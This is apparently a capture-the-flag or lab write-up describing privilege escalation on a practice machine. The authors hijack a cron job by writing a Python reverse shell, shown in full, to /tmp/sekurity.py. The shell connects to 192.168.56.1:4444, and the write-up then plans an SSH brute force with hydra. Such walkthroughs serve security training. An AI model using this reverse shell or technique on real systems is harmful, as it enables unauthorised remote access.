


::: page
# Privilege Escalation {#privilege-escalation .title}

\

We tried to ge**t linpeas or any other priv esc tool** into the machine
b**ut were not able to**.

So we did **manual enumeration** :

Found a **kernel vulnerability** that was a **time consuming** way since
we cant get the code in the machine.

Found interesting **cron job** :

This tell us that **every 5 minutes,** the user **jimmy** automatically
executes a **Python script located at /tmp/sekurity.py**.

Lets make a file **/tmp/sekurity.py** and insert a **reverse shell**
inside it :

**#!/usr/bin/python**

**import socket, subprocess, os**

**s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)**

**s.connect((\"192.168.56.1\", 4444))**

**os.dup2(s.fileno(), 0)**

**os.dup2(s.fileno(), 1)**

**os.dup2(s.fileno(), 2)**

**p = subprocess.call(\[\"/bin/sh\", \"-i\"\])**

1.  1\. `1. Tool Imports:`
    - `Imports 'socket' for network traffic.`
    - `Imports 'subprocess' to run system commands.`
    - `Imports 'os' to control system file streams.`

<!-- -->

1.  `Network Connection:`
    - `Creates a standard TCP socket.`
    - `Connects to the attacker's IP and port over the network.`

<!-- -->

1.  `Stream Redirection:`
    - `Redirects Standard Input (0), Output (1), and Error (2).`
    - `Binds all three terminal streams directly to the network socket.`
    - `What you type on your machine is sent straight to the target.`

<!-- -->

1.  `Shell Execution:`
    - `Spawns an interactive Unix shell (/bin/sh -i).`
    - `Because of the redirection, the terminal prompt goes to the attacker`

**We saved this and listened on our kali and got a shell after 5 mins**.

**We got another user jimmy**.

We enumerated into **jimmy**, f**ound networker but nothing inside**,
also s**udo was not recognised** so it was a dead end.

**Last user remaining is hadi**.

Lets **bruteforce hadi** using **hydra to ssh.**
:::
